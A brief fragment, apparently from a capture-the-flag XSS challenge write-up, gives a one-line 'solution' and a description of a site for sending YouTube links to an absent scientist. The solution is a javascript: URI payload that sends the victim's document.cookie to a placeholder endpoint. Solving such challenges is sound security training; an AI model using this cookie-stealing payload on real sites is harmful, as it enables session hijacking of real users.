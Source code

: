 solution `javascript:document.location="url?c="+document.cookie;console.log("https://www.youtube.com/watch?v=")`

whilst the scientist is away, he created this makeshift site for you to be able to send him youtube videos.